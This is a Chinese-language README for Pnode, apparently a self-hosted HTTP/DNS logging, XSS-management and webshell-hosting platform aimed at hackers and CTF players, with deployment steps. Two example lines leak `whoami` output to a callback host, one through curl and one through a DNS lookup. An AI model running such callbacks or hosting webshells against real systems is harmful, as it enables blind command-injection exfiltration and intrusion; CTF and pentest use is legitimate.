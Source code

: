 ```
   ___                 _      
  / _ \_ __   ___   __| | ___ 
 / /_)/ '_ \ / _ \ / _` |/ _ \
/ ___/| | | | (_) | (_| |  __/
\/    |_| |_|\___/ \__,_|\___|
                              
```

ps: 请使用chrome浏览器

```
2019-01-19 首次公开
2019-03-19 增加DNS rebinding
```

### 项目名称

Pnode

### 项目描述

前端使用Boostrap框架，后端使用thinkphp5框架开发

适用于hacker&CTFer

可以满足日常的需求，并且可以直接在WEB端管理&编辑一些文件用于远程加载

### 功能介绍

* HTTP log
* DNS log
* XSS攻击管理模块
* WebShell等文件管理模块

```
curl http://127.0.0.1:10082/public/?c=`whoami`
```



![](https://ws4.sinaimg.cn/large/006tNc79ly1fzbpadxielj31ik0m6ac2.jpg)



```
ping -c 2 `whoami`.pnode.tk
```



![](https://ws1.sinaimg.cn/large/006tNc79ly1fzb0a7st2ej31fc0dmdi0.jpg)

![](https://ws1.sinaimg.cn/large/006tNc79ly1fzbr5mp56uj31fb0u0afo.jpg)

![](https://ws2.sinaimg.cn/large/006tNc79ly1fzbr6j7i0zj31r00su41a.jpg)





### 环境部署

LAMP环境即可

修改database.php中数据库账号密码

自行修改默认登陆密码(md5后的)

```
update users set password=md5('admin') where username='admin'
```

如果需要DNS log功能,首先`https://my.freenom.com/`注册一个账号,然后免费申请一个域名

![](https://ws3.sinaimg.cn/large/006tNc79ly1fzb0n0s9k9j320g0rygu7.jpg)

![](https://ws4.sinaimg.cn/large/006tNc79ly1fzb0otdeumj31se0o2n0g.jpg)

然后将你的vps的外网ip填入

然后一直继续即可

然后将dns.py放入到`/tmp`目录下

修改dns.py为你的域名和你的vps ip,然后手动启动dns服务

```
nohup python /tmp/dns.py &
```

在一个小时左右将会解析成功,然后就可以接受到log。


* PS:部分模块代码取自火日师傅项目,感谢。
